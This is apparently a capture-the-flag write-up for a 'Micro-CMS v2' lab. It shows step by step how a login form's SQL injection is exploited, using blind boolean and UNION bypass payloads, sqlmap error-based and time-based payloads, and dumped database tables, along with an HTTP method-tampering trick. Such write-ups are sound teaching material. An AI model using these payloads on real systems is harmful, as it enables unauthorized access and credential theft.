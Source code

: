 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

>Traceback (most recent call last):
>  File "./main.py", line 145, in do_login
>    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
>    self.errorhandler(self, exc, value)
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
>    raise errorvalue
>ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error.

These error messages can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned true, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned false. Using this query, it is deduced that the length of the password is ```7```.

Now, each character in the password can similarly be found using the ```substring()``` function: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters until character 7 (the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found.)

This ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

>Parameter: username (POST)
>    Type: error-based
>    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
>    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
>    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

>web server operating system: Linux Ubuntu
>web application technology: Nginx 1.14.0
>back-end DBMS: MySQL >= 5.0
>available databases [4]:
>[*] information_schema
>[*] level2
>[*] mysql
>[*] performance_schema
>
>Database: level2
>Table: admins
>[1 entry]
>+----+----------+----------+
>| id | username | password |
>+----+----------+----------+
>| 1  | shayna   | tanesha  |
>+----+----------+----------+
>
>Database: level2
>Table: pages
>[3 entries]
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
>| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
>| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

#### FLAG1 is captured.

All flags captured
=====
